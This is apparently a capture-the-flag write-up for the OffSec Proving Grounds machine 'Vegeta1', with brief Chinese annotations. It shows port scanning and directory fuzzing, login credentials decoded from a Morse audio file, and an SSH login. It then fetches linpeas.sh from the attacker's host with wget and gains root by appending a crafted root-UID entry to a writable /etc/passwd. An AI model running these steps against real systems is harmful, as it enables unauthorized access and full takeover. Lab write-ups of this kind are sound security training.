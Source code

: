 ###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Vegeta1
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.181.73 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.181.73:22
Open 192.168.181.73:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
┌──(kali㉿kali)-[~/pgplay]
└─$ ffuf -u http://192.168.181.73/FUZZ -w /home/kali/rockyou.txt -fw 6

admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 60ms]
manual                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 60ms]
image                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 61ms]
bulma                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 61ms]
```

`http://192.168.181.73/bulma/hahahaha.wav`
[Morse Decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
```
USER : TRUNKS PASSWORD : US3R<KN>S IN DOLLARS SYMBOL<CT>
```

ssh，在`/home/trunks`得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh trunks@192.168.181.73

trunks@192.168.181.73's password: u$3r

trunks@Vegeta:~$ cat local.txt
9ac11f4c77bfa8baab6e629417ca61df
```

用`linpeas.sh`
```
trunks@Vegeta:/tmp$ wget 192.168.45.183/linpeas.sh
trunks@Vegeta:/tmp$ chmod +x linpeas.sh
trunks@Vegeta:/tmp$ ./linpeas.sh

═╣ Writable passwd file? ................ /etc/passwd is writable 
```

得root在/root得proof.txt
```
trunks@Vegeta:/tmp$ echo "toor:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
trunks@Vegeta:/tmp$ su toor
Password: w00t
root@Vegeta:~# cat proof.txt
8f1d56cd6989e052369298295b47a09f
```
